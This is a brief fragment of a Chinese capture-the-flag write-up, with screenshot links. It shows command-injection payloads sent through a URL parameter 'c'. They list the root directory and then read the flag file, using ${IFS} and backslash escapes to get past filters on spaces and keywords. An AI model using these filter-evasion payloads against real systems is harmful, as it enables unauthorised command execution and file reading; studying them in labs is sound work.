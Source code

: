 ![image-20240120134036444](照片/image-20240120134036444.png)

重新对根目录进行查找

```
?c=ls${IFS}/||
```

发现flag位置

![image-20240120134201671](照片/image-20240120134201671.png)

构建命令

```
?c=ta\c${IFS}/fl\ag||
```
